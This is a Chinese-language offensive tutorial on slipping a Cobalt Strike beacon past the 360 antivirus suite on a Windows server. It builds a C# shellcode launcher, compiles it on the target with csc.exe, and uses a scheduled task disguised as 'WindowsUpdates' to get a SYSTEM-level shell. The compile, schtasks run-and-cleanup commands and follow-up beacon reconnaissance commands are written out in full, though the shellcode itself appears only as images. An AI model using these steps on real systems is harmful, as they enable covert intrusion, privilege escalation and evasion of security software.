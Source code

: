 # Cobalt Strike beacon 免杀上线 [ Csharp ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/24.html](http://book.iwonder.run/Tools/Cobalt Strike/24.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 首先,创建如下监听器

![image](img/f498084ba367fcfbc428afdf7bbfcc5a.png)

> 接着,再用上面的监听器生成 64 位 shellcode,因为目标是 64 位系统

![image](img/2f6cb8c61838a818a294840dcc8e34fe.png)

> 最终生成的 shellcode 如下

```
# cat bypass.cs 
```

![image](img/fc27d87838edbe51a6898f92b69c6afa.png)

> 然后开始替换 shellcodeLauncher.cs 文件中对应位置的 shellcode,注意那个字节长度要和上面的 shellcode 保持一一对应

![image](img/c35691c0952bd959c6666cbe1a918377.png)

> 之后,只需想办法将 shellcodeLauncher.cs 文件丢到目标机器上,再利用其自带的 csc[ 特别注意,此处也要用 64 位目录下的 csc 工具,csc 默认系统是没有的,需要目标机器装有.net 4.0 才行,不过服务器环境一般默认都会装的有] 编译生成对应的 exe payload,实战中记得把这个 exe 文件名改下,由于直接执行 exe payload 会被一直挂起,所以我们可以尝试利用系统计划任务直接弹回一个 system 权限的 beacon shell,有些朋友提到 360 套装会拦截 schtasks,自己在实测中有时候拦了,有时候却没拦,暂时还不大清楚具体原因,虽然直接用 wmic 也可以执行,但 360 百分百会拦截 wmic.exe

```
# C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
# move shellcodeLauncher.exe c:\Windows\Temp
# schtasks /create /RL HIGHEST /F /ru "SYSTEM" /tn "WindowsUpdates" /tr "c:/Windows/Temp/shellcodeLauncher.exe" /sc DAILY /mo 1 /ST 00:15
# schtasks /run /tn "WindowsUpdates"
# schtasks /query | findstr "WindowsUpdates"
# schtasks /delete /F /tn "WindowsUpdates" 
```

![image](img/57b6067e8b6268c3420600239eff552c.png)

> 最终,启动计划任务后,system 权限的 beacon shell 被正常弹回

```
beacon> sleep 0
beacon> shell tasklist | findstr /c:"explorer.exe" /c:"360"
beacon> shell query user 
```

![image](img/caa282bd4b278649dfa2dfa056ef82a3.png)


